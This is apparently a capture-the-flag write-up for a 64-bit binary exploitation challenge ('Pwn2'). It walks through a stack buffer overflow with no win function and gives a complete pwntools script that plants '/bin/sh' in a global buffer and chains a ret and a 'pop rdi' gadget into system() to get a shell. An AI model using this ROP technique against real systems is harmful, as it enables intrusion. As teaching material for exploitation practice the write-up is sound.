 ```yaml
---
title: Pwn2
type: writeup
date: 2023-06-10
author: sunbather
tags:
  - pwn
---
```


## Description of the challenge

There is no win function this time! 

Author: NoobMaster

## Solution

Running checksec on the binary, we notice the lack of canary and PIE.

```
$ checksec pwn2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   42 Symbols	  No	0		1		pwn2
```


When we open the binary in Ghidra, we are greeted with the following main function:

```c
void main(EVP_PKEY_CTX *param_1)
{
  char local_28 [32];
  
  init(param_1);
  puts("Would you like a flag?");
  fgets(input,0x19,stdin);
  puts("Wrong Answer! I\'ll give you another chance!\n");
  puts("Would you like a flag?");
  fgets(local_28,0x60,stdin);
  system("cat fake_flag.txt");
  return;
}
```
We notice the global variable ``input`` and local variable ``local_28``. The input is passed to two different variables. Again a buffer overflow on ``local_28``, but this time with no win function, like the descriptions says.

The idea would be maybe to write ``/bin/sh`` in the data section, through the ``input`` variable, and then use it in a ROP chain to call ``system``, which is imported in the binary already.

So let's ROP it.
```
$ ROPgadget --binary pwn2 | grep ret
0x000000000040110b : add bh, bh ; loopne 0x401175 ; nop ; ret
0x0000000000401228 : add byte ptr [rax - 0x77], cl ; ret 0x19be
0x00000000004010dc : add byte ptr [rax], al ; add byte ptr [rax], al ; endbr64 ; ret
0x000000000040117a : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x00000000004010de : add byte ptr [rax], al ; endbr64 ; ret
0x000000000040117b : add byte ptr [rcx], al ; pop rbp ; ret
0x000000000040110a : add dil, dil ; loopne 0x401175 ; nop ; ret
0x000000000040117c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401177 : add eax, 0x2f0b ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401017 : add esp, 8 ; ret
0x0000000000401016 : add rsp, 8 ; ret
0x00000000004010e3 : cli ; ret
0x000000000040128b : cli ; sub rsp, 8 ; add rsp, 8 ; ret
0x00000000004010e0 : endbr64 ; ret
0x0000000000401286 : leave ; ret
0x000000000040110d : loopne 0x401175 ; nop ; ret
0x0000000000401176 : mov byte ptr [rip + 0x2f0b], 1 ; pop rbp ; ret
0x0000000000401285 : nop ; leave ; ret
0x00000000004011fa : nop ; pop rbp ; ret
0x000000000040110f : nop ; ret
0x0000000000401178 : or ebp, dword ptr [rdi] ; add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x000000000040117d : pop rbp ; ret
0x0000000000401196 : pop rdi ; ret
0x000000000040101a : ret
0x000000000040122b : ret 0x19be
0x0000000000401011 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x000000000040128d : sub esp, 8 ; add rsp, 8 ; ret
0x000000000040128c : sub rsp, 8 ; add rsp, 8 ; ret
```
We find a ``pop rdi ; ret`` which is essential for passing ``/bin/sh`` to system. So the full exploit is simply:

```py
#!/usr/bin/env python3

from pwn import *

target = remote("challs.n00bzunit3d.xyz", 61223)
#target = process("./pwn2")

target.sendline(b"/bin/sh\x00") # send /bin/sh for first input

sys_addr = p64(0x00401080) # system address
pop_rdi_gadget = p64(0x0000000000401196) # pop rdi ; ret address
ret_gadget = p64(0x000000000040101a) # ret gadget - stack needs to be 16-bytes aligned for system()
sh_addr = p64(0x00404090) # /bin/sh address (the global input variable's address)

payload = b"a" * 0x28 + ret_gadget + pop_rdi_gadget + sh_addr + sys_addr

#gdb.attach(target)
target.sendline(payload)
target.interactive()
```

Notice the ``ret`` gadget, used as a ``NOP`` to align the stack to 16 bytes, which is a necessary precondition to calling ``system()``. Failing to do so will result in a segmentation fault.

We run the exploit:
```
$ ./solve.py 
[+] Starting local process './pwn2': pid 25704
[*] Switching to interactive mode
Would you like a flag?
Wrong Answer! I'll give you another chance!

Would you like a flag?
n00bz{f4k3_fl4g}
$ whoami
sunbather
```

Easy shells.

